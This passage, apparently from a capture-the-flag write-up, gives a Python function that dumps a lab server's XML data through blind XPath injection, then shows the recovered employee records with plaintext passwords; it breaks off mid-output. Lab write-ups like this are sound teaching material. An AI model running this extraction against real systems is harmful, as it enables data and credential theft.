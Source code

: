     def get_node(node, depth=0):

        print(f'\n{" "*depth*2}<', end='', flush=True)
        node_name = get_text(f'name({node})')
        #print(node_name, end='', flush=True)
        print('>', end='', flush=True)

        # Count children
        i = 0
        while True:
            if xpath_req(f"count({node}/*)={i}"):
                #print(f'[+] {node} has {i} children')
                break
            i += 1
        num_children = i


        for i in range(1, num_children+1):
            get_node(f'{node}/*[position()={i}]', depth+1)

        if num_children == 0:
            #/Employees/Employee[position()=1]/Username='rita'
            #string-length(/Employees/*[position()=1]/Username)=3
            text = get_text(f'{node}', alpha=string.printable)
            #print(text, end='', flush=True)
        else:
            print(f'\n{" "*depth*2}', end='', flush=True)

        print(f'</{node_name}>', end='', flush=True)

    get_node('/*[position()=1]')
    print()



It takes a while to run, but dumps everything:



    root@kali# time ./dump_xml.py 

    <Employees>
      <Employee>
        <Username>rita</Username>
        <FirstName>Rita</FirstName>
        <LastName>Fubelli</LastName>
        <Email>rita@unbalanced.htb</Email>
        <Role>HR Manager</Role>
        <Password>password01!</Password>
      </Employee>
      <Employee>
        <Username>jim</Username>
        <FirstName>Jim</FirstName>
        <LastName>Mickelson</LastName>
        <Email>jim@unbalanced.htb</Email>
        <Role>Web Designer</Role>
        <Password>stairwaytoheaven</Password>
      </Employee>
      <Employee>
        <Username>bryan</Username>
        <FirstName>Bryan</FirstName>
        <LastName>Angstrom</LastName>
        <Email>bryan@unbalanced.htb</Email>
        <Role>System Administrator</Role>
        <Password>ireallyl0vebubblegum!!!</Password>
      </Employee>
      <Employee>
        <Username>sarah</Username>
